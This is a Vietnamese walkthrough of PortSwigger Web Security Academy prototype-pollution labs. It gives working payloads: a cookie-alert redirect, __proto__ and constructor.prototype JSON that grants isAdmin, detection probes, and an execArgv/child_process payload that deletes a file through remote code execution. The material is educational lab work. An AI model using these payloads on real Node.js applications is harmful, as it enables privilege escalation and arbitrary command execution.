<script>window.location.href = "https://0a0800cf042cdad180f0fd15008500d7.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29";</script>
```



Ta thực hiện thử trước với trình duyệt của ta



Nhưng ta không thấy cookie bởi vì nó được set **HTTP Only** nên JS không đọc được\
Ta thực hiện gửi cho victim



## **Lab: Privilege escalation via server-side prototype pollution**


>>Lab yêu cầu thực hiện leo thang đặc quyền lên **admin** và xóa user `carlos`

Khi ta nhấn **submit** để đổi thông tin người dùng, ta quan sát response trả lại trong Burp



Ta lấy ứng dụng có reflect lại một trường là `isAdmin`, ta thực hiện thêm trường

```json
{
    "__proto__":{
        "isAdmin": true
    }
}

```

Kết quả là trường `isAdmin` đã đổi thành `true`, nguyên nhân có thể là do object này (*có thể tên là `User`*) không có thuộc tính này `isAdmin`,  nhưng ở Object Protype có thuộc tính này nên ta có thể thực hiện ghi đè vào thuộc tính này\
Ta xác minh lại điều này bằng cách đổi thẳng thuộc tính `isAdmin:false`



Kết quả là thuộc tính này không đổi sang `false`

Ta thực hiện truy cập **Admin Panel** và xóa user `carlos`



## **Lab: Detecting server-side prototype pollution without polluted property reflection**


>>Lab có mục đích chỉ để phát hiện Pollution thành công chứ không nhất thiết phải khai thác

Bài này ta có thể thực hiện cho những payload có sự thay đổi trong phần **Raw** của response\
Ta thử bằng payload có thể thực hiện ghi đè **status code**

```json
{
  "__proto__": {
    "statusCode": 418
  }
}
```

>Phần này ta cần cho web có mã lỗi từ `400` đến `600` để có thể quan sát một cách tốt nhất

Ta thực hiện một lỗi khiến web trả về lỗi, ở đây mình phá vỡ cấu trúc của JSON



Kết quả là web trả về `500` nhưng phần status là `418`

Tiếp theo là ta có thể cho khoảng cách thụt đầu dòng của response 

```json
{
  "__proto__": {
    "json spaces": 10
  }
}
```



Xem ở tab **Raw** ta thấy có sự thay đổi trong format của response

Tiếp theo là test khả năng decode của web, ví dụ trong **utf-7** chuỗi `foo` nhưng **UTF8** là chuỗi `+AGYAbwBv`

```json
{
"__proto__": {
    "content-type": "application/json; charset=utf-7"
   }
}
```



<br>



## **Lab: Bypassing flawed input filters for server-side prototype pollution**


Bài này ta dùng `__proto__` sẽ không được vì có thể web đã filter, nên ta sẽ dùng `constructor[prototype][property]` để thay thế

```json
"constructor": {
    "prototype": {
        "foo":"bar"
    }
  }
```




Ta thấy rằng thuộc tính `foo` đã được thêm vào, ta thực hiện thay đổi bằng thuộc tính `isAdmin`

```json
"constructor": {
    "prototype": {
        "isAdmin":"true"
    }
}
```



<br>



## **Lab: Remote code execution via server-side prototype pollution**


>>Lab yêu cầu thực hiện RCE và xóa thư mục /`home/carlos/morale.txt`

Bài này sẽ dùng payload 

```json
{
  "__proto__": {
    "execArgv": [
      "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
  }
}
```

Rồi sau đó thực hiện chạy chức năng trong **Admin Panel**




